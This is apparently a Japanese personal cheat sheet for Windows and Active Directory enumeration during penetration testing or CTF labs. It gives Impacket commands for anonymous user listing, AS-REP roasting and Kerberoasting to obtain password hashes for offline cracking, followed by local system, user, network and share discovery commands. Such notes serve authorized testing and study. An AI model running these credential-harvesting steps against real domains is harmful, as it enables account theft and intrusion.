 # 列挙（Windows）

## Kerberos

ユーザー名列挙

```shell
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

ユーザー名のリスト（ドメインは含まない）を作り、AS-REP Roasting 攻撃でハッシュを取得。  
※ Pre-authentication を無効にしているユーザーが存在する場合に限り、ハッシュを取得できる。

```shell
python3 /opt/impacket/examples/GetNPUsers.py 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip $TARGET
```

いずれか 1 つのアカウントを侵害できたらケルベロースティング。

```shell
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py 'domain/name:passwd' -outputfile keberoast.hash -dc-ip $TARGET
```

ハッシュの種類を特定。  
hashcat の番号も表示してくれるので、hashcat でパスワードをクラック。

```shell
name-that-hash -f hash.txt
```

## システム

```ps
systeminfo

# インストールされたアップデート
wmic qfe get Caption,Description

# 開始されたサービス
net start

# インストールされているアプリ
wmic product get name,version,vendor
```

## ユーザー

```ps
# 自分の権限
whoami /priv

# 属しているグループ
whoami /groups

# IL
whoami /groups | find "Label"

# 他のユーザーを表示
net user

# 使用可能なグループ
net localgroup

# ローカル管理者グループに属するユーザー
net localgroup administrators

# マシンのローカル設定
net accounts
# ドメインに属している場合
net accounts /domain
```

## ネットワーク

```ps
ipconfig

netstat -abno

arp -a
```

## SMB

```ps
# 共有フォルダ
net share
```
